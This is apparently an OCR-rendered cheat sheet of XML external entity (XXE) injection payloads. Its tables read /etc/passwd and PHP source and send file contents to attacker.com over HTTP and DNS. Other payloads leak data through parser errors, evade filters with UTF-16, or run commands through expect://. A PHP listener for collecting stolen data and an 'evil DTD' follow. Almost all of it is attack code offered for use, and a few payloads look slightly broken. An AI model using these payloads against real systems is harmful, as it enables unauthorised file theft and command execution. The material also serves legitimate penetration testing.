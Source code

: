 # Comprehensive Guide to XXE Injection Patterns

## Basic File Reading

|Type|Description|Example Payload|
|---|---|---|
|Basic Local File|Reads local system files directly|`xml<br><!DOCTYPE foo [<br> <!ENTITY xxe SYSTEM "file:///etc/passwd"><br>]><br><root><name>&xxe;</name></root>`|
|PHP Filter (Base64)|Encodes file content to avoid parsing issues|`xml<br><!DOCTYPE foo [<br> <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"><br>]><br><root><name>&xxe;</name></root>`|
|Directory Listing|Lists contents of directories|`xml<br><!DOCTYPE foo [<br> <!ENTITY xxe SYSTEM "file:///"><br>]><br><root><name>&xxe;</name></root>`|

## Out-of-Band (OOB) Exfiltration

|Type|Description|Example Payload|
|---|---|---|
|Basic OOB|Sends data to external server|`xml<br><!DOCTYPE foo [<br> <!ENTITY % file SYSTEM "file:///etc/passwd"><br> <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd"><br> %dtd;<br>]><br><root><name>&send;</name></root>`|
|Parameter Entity|Uses parameter entities for data exfiltration|`xml<br><!ENTITY % file SYSTEM "file:///etc/passwd"><br><!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>"><br>%eval;<br>%exfil;`|
|DNS Exfiltration|Exfiltrates data via DNS requests|`xml<br><!DOCTYPE foo [<br> <!ENTITY % file SYSTEM "file:///etc/passwd"><br> <!ENTITY % dtd "<!ENTITY send SYSTEM 'http://%file;.attacker.com'>"><br> %dtd;<br>]><br><root><name>&send;</name></root>`|

## Error-Based Techniques

|Type|Description|Example Payload|
|---|---|---|
|Invalid URI|Forces error messages containing file content|`xml<br><!DOCTYPE foo [<br> <!ENTITY % file SYSTEM "file:///etc/passwd"><br> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///%file;'>"><br> %eval;<br> %error;<br>]><br><root><name>test</name></root>`|
|DTD Validation|Uses DTD validation errors to leak data|`xml<br><!DOCTYPE foo [<br> <!ENTITY % file SYSTEM "file:///etc/passwd"><br> <!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://invalid/%file;'>"><br> %eval;<br> %test;<br>]><br><root><name>test</name></root>`|

## Advanced Techniques

|Type|Description|Example Payload|
|---|---|---|
|SOAP Injection|XXE in SOAP requests|`xml<br><?xml version="1.0"?><br><!DOCTYPE soap:Envelope [<br> <!ENTITY xxe SYSTEM "file:///etc/passwd"><br>]><br><soap:Envelope><soap:Body>&xxe;</soap:Body></soap:Envelope>`|
|XInclude|XXE using XInclude|`xml<br><foo xmlns:xi="http://www.w3.org/2001/XInclude"><br> <xi:include parse="text" href="file:///etc/passwd"/><br></foo>`|
|SVG Upload|XXE via SVG file upload|`xml<br><?xml version="1.0" standalone="yes"?><br><!DOCTYPE test [ <br> <!ENTITY xxe SYSTEM "file:///etc/passwd"> <br>]><br><svg xmlns="http://www.w3.org/2000/svg"><br> <text>&xxe;</text><br></svg>`|

## Mitigation Bypasses

|Type|Description|Example Payload|
|---|---|---|
|UTF-16 Encoding|Bypasses certain filters|`xml<br><?xml version="1.0" encoding="UTF-16"?><br><!DOCTYPE foo [<br> <!ENTITY xxe SYSTEM "file:///etc/passwd"><br>]><br><root><name>&xxe;</name></root>`|
|Protocol Wrapping|Bypasses protocol restrictions|`xml<br><!DOCTYPE foo [<br> <!ENTITY xxe SYSTEM "expect://id"><br>]><br><root><name>&xxe;</name></root>`|
|Nested Entities|Bypasses entity restrictions|`xml<br><!DOCTYPE foo [<br> <!ENTITY % a "<!ENTITY &#x25; b 'file:///etc/passwd'>"><br> %a;<br> %b;<br>]><br><root><name>&xxe;</name></root>`|

## Common Tools and Setup

**Listener Setup:**

php

Copy

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

**Evil DTD (xxe.dtd):**

xml

Copy

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;

Run HTML

## Best Practices for Testing

- Always start with simple file reads to verify XXE vulnerability
    
- Use PHP filters when dealing with special characters
    
- Switch to OOB techniques when direct output is not visible
    
- Consider error-based techniques when other methods fail
    
- Always URL-encode special characters in OOB payloads
    
- Test for different protocol handlers (file://, php://, expect://)
    
- Try different encodings if initial attempts fail